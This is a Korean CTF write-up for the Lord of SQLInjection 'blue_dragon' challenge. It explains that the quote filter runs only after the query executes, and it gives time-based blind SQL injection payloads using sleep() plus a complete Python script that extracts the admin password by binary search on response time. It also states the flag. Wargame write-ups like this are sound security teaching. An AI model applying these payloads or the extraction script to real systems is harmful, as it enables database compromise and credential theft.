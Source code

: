 
# [27] blue_dragon

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FKFIKw%2FbtroCv4EK0q%2F34qar1nyDQNZRXZPTiBYE0%2Fimg.png">

## 풀이

1. 싱글쿼터와 역슬래시를 필터링하고 있다.

2. pw를 알아내야하는 Blind SQLi 문제이다.

<br>

이전 문제들과 뭔가 다른 점은 다음 부분이다.

```php
$result = @mysqli_fetch_array(mysqli_query($db,$query));
if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
```
 
쿼리를 먼저 실행한 이후에 싱글쿼터와 역슬래시를 필터링하고 있다.

싱글쿼터나 역슬래시가 포함된 문자열을 페이로드로 전달하더라도 쿼리는 실행될 것임을 추측할 수 있다.

다만, 필터에 걸릴 시 No Hack으로 exit해주고 있기 때문에 육안으로는 쿼리의 참/거짓 결과를 알 수가 없다.

따라서 이번 문제에서는 처음으로 Time Based SQLi를 사용해보았다!

<br>

[1] pw 길이 찾기

```
?id=' || id='admin' and if(length(pw)=[숫자], sleep(3), 0) %23
```

- 뒷부분은 전부 주석으로 날려주었기 때문에 pw 페이로드는 전달할 필요가 없다.

<br> 

[2] 완전한 pw 찾기

```
?id=' || id='admin' and if(ascii(substr(pw,[인덱스],1))=[아스키], sleep(3), 0) %23
```

- 역시 pw 페이로드는 전달할 필요가 없다.

<br>

[3] 참/거짓 판별

- Request를 보낸 이후 Response가 도착하기까지 걸린 시간을 측정하여 3초가 넘으면 참으로 본다.

<br>


**LoS 27번 Python 자동화 코드**이다.
```python
import requests
import time

url = "https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php"
cookie = {"PHPSESSID":"leco90m74ui20oikeo0n338f6b"}

print("🖤 Start SQLi...")

for i in range(1,100):
    payload = f"?id=' || id='admin' and if(length(pw)={i},sleep(3),0) %23"
    pre = time.time()
    requests.get(url+payload, cookies=cookie)
    post = time.time()
    if(post-pre>3):
        length = i
        print(f">> length : {length}")
        break

ans=""

for letter in range(1,length+1):
    print(f"🖤 Checking letter {letter}...")
    start = 32
    end = 127
    while True:
        middle = round((start+end)/2)
        payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))>={middle},sleep(3),0) %23"
        pre = time.time()
        requests.get(url+payload, cookies=cookie)
        post = time.time()
        if(post-pre>3):
            payload = f"?id=' || id='admin' and if(ascii(substr(pw,{letter},1))={middle},sleep(3),0) %23"
            pre = time.time()
            requests.get(url+payload, cookies=cookie)
            post = time.time()
            if(post-pre>3):
                print(f">> letter {letter} → {chr(middle)}")
                ans+=chr(middle)
                break
            else:
                start = middle
        else:
            end = middle
            continue

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FeBeESw%2FbtroDPaeKTt%2FzQ2nB2e2UXsR6W4i8TLEzk%2Fimg.png">

답은 `d948b8a0` 이다.

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F5Wdoj%2FbtroCwvIybX%2FnimHxDRsIC3HlDBClY1PN1%2Fimg.png">